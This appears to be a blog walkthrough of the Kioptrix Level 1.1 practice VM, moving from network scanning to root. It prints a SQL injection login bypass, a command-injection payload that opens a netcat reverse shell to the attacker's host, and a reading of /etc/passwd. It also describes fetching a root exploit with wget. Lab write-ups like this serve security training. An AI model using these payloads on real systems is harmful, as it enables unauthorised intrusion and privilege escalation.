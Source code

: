 ```yaml
---
layout: post
title: Kioptrix Level 1.1 Walkthrough
category: vm
---
```

  Time to move on to the next challenge labled "Kioptrix 1.1". The first step is to find the target machines IP address. The attacker uses netdiscover to find the new ip.  

![Image description](/images/kioptrix1.2.1.png)

  The ip of the vulnerable virtual machine is 172.16.158.129. The attacker needed to gather more information about the virtual machine so he used nmap to do a basic scan to see which ports are open and what services are running. 

![Image description](/images/kioptrix1.2.2.png)

  Right away he noticed multiple interesting ports to explore. He decided to start with port 80. Port 80 is commonly used for webhosting so he opened up his web browser then pointed it to 172.16.158.129. The attacker finds a simple login form when he lands on the home page, nothing else too exciting here. The page appears to be used for administrative purposes. Well, lets see what he can do with the login form.

![Image description](/images/kioptrix1.2.3.png)

He was able to log in with a simple SQL injection. 

Login: Admin
Password: ' OR '1'='1

  The attacker is brought to another page that allows the use to ping a machine on the network. I wonder if he can run other commands from the same text entry box? He tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

  Surprisingly, he was able to display the contents of /etc/passwd, but he will save that for later use. This means that further code could possible be entered in this form. The attacker still needed to obtain root. He needed to see if he could obtain a stable shell in a similar way that he displayed /etc/passwd.

![Image description](/images/kioptrix1.2.14.png)

  The attacker set up netcat on his host machine to listen for any connections on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 9292 -e '/bin/bash' into the webform. He was able to obtain a shell. However, the attacker still wasnt root.

![Image description](/images/kioptrix1.2.10.png)

  He found a local root exploit but the attacker still needed to download the exploit remotely in Kioptrix. He set up a python simple server to host the exploit.

![Image description](/images/kioptrix1.2.13.png)

Once the exploit was hosted, the attacker simply used wget to get the exploit. 

![Image description](/images/kioptrix1.2.12.png)

The attacker was then able to  compile the exploit and run it. Root obtained!

![Image description](/images/kioptrix1.2.11.png)

On to the next challenge!

